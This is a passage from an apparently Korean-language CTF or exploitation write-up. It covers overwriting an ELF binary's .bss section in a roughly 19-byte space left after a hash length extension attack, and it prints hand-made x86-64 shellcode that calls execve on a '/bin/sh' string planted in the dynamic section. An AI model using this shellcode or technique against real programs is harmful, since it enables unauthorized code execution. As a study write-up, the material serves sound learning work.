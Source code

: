   <img src="/assets/img/posts/3/12.jpg" style="width:500px" />
</a>
</div>

```
[13] .plt              PROGBITS         0000000000001020  00001020
     0000000000000030  0000000000000010  AX       0     0     16
```

.plt 의 size 는 0x30 으로 그리 크지않다. 그래서 0x8 로 작은 size 를 가지는 `.bss` section 을 덮어쓰기로 했다. 또한 Hash Length Extension Attack 을 위해 덧붙여지는 데이터까지 고려하면 실질적으로 남는 공간은 19bytes 정도밖에 되지 않는다. 일단 이 정도면 충분히 쉘코드를 넣을 공간은 된다고 판단하고 선택했다.

쉘코드는 19bytes 공간에 맞추기 위해 직접 다시 만들었고 아래와 같다.

```
xor rsi, rsi
push rcx
pop rdx
add dx, 2F8Bh
push rdx
pop rdi
push 3Bh
pop rax
push rsi
pop rdx
syscall
```

이 쉘코드는 완전히 독립적이지 않고 __libc_start_main 에서 call rcx 로 쉘코드가 호출되기 직전의 레지스터 상태에 의존하며, `"/bin/sh"` 문자열도 dynamic section 에 넣은 다음 해당 위치를 가리키도록 했다. 물론 이 문자열은 dynamic table 로 인식되지 않으므로 아무 상관이 없다.

<br>
